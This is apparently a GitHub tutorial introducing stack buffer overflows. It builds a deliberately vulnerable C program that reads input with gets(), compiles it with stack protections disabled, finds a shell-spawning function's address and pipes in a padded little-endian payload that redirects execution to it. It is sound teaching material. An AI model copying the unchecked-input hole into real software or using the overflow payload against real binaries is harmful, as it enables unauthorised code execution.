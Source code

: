 
<h3> Intro to Stack Smashing : Buffer Overflow</h3>
<hr>
</br>
<b> Ques : What is Buffer and what is buffer overflow ? </b> 
</br> 
<b> Ans &nbsp; -> Buffer </b>: Simple a temporary variable used to store data.</br>
<b>&nbsp; &nbsp; &nbsp; &nbsp; &nbsp; -> Buffer Overflow</b>: Occurs when the data written to a buffer is larger than the size of the buffer itself & there are insufficient checks , which further leads to overflow and over-writing to adjacent memory locations.</br>
</br> 
 &nbsp; &nbsp; &nbsp; Example Code : 
</br> 

```bash
user@PC-Name:~# cat canYouExecuteMeCode.c

#include<stdio.h>
#include<stdlib.h>


void dangerousFunction()  {
  printf("GIVING SHELL\n");
  system("/bin/bash");
}

void getInput() {
  char ans[12];
  printf("String is at : %p\n",ans);
  gets(ans);
  printf("String is at : %p\n",ans);
  puts(ans);
}

int main(){
  getInput();

}

```

</br> 
&nbsp; -> The way the stack , the registers and our buffer is rendered in memory is : <img src="./stackLayout.png">.
</br> 
&nbsp; -> Now since we know that the stack grows from high memory to low memory and if we somehow are able to <b>over-write the return address with the address of our shellcode or any function we want</b>, then as soon as the function returns the control by popping the `RET` address from stack and jumpoing to it we wil achieve code execution.
</br> 
&nbsp; -> Example : 
</br> 

```bash
user@PC-Name:~# cat canYouExecuteMeCode.c 
#include<stdio.h>
#include<stdlib.h>


void dangerousFunction()  {
  printf("GIVING SHELL\n");
  system("/bin/bash");
}

void getInput() {
  char ans[12];
  gets(ans);
  puts("String is : ");
  puts(ans);
}

int main( int argc,  char *argv[]){
  getInput();
}

# goal is to execute the function dangerousFunction as it would give us shell on the machine.

# For demo purposes  : Disable ASLR & compile with no stack canary + set stack as executable
user@PC-Name:~# gcc -ggdb canYouExecuteMeCode.c -o canYouExecuteMeCode -m32 -fno-stack-protector -z execstack
> disass dangerousFunction 
Dump of assembler code for function dangerousFunction:
  `0x0804847d` <+0>: push   ebp
   0x0804847e <+1>:  mov    ebp,esp
   0x08048480 <+3>:  sub    esp,0x18
   0x08048483 <+6>:  mov    DWORD PTR [esp],0x8048570
   0x0804848a <+13>: call   0x8048340 <puts@plt>
   0x0804848f <+18>: mov    DWORD PTR [esp],0x804857d
   0x08048496 <+25>: call   0x8048350 <system@plt>
   0x0804849b <+30>: leave  
   0x0804849c <+31>: ret    
End of assembler dump.

#If we somehow get the EIP (Instruction Pointer) to point to this location `0x0804847d` then this function would automatically be executed.

```

</br> 
<ul>
<li type=1>If we somehow get the EIP (Instruction Pointer) to point to this location `0x0804847d` i.e address of dangerousFunction(which gives us shell)then this function would automatically be executed.</li>
<li type=1>Now let's recollect all what we know -:</li>
&nbsp;-> layout of the stack and the fact that the buffer size of the input in 12 bytes</br>
&nbsp;-> The code running on the machine is 32-bit which means bufferSize + 8bytes(bcoz of EBP and RET address pushed in stack) + sizeof(variables declared on stack) needs to be junked and address which we want EIP to point to should be passed next.</br>
&nbsp;-> The code running on the machine is little endian (must be kept in mind while passing address)</br>
&nbsp;-> The address of dangerousFunction i.e 0x0804847d.
<li type=1>Let us create our payload now</li>

```bash
# In our case we needed 12+8+4 = 24bytes after which we can inject our actual payload.
user@PC-Name:~# echo -e 'AAAAAAAAAAAAAAAAAAAAAAAA\x7d\x84\x04\x08'
# Note the actual address passed is in reverse order (thanks to little endian)
```

<li type=1>Let's hack it..</li>

```bash
user@PC-Name:~# echo -e 'AAAAAAAAAAAAAAAAAAAAAAAA\x7d\x84\x04\x08' | ./canYouExecuteMeCode
String is at : 0xffffd724
String is at : 0xffffd724
AAAAAAAAAAAAAAAAAAAAAAAA}�
`GIVING SHELL`
`Illegal instruction (core dumped)` 
`user@PC-Name:~# `

```
<li type=1>Shell is up.</li>
<li type=1>In this example we had a `dangerousFunction()` in the code, but it will never be there in real world</li>
<li type=1>IIn the next Example we will see how we can inject our custom<a href="./shellcode.md" target="_blank"> shellcode </a> and expoit buffer overflow to get shell.</li>
</ul>
</br> 

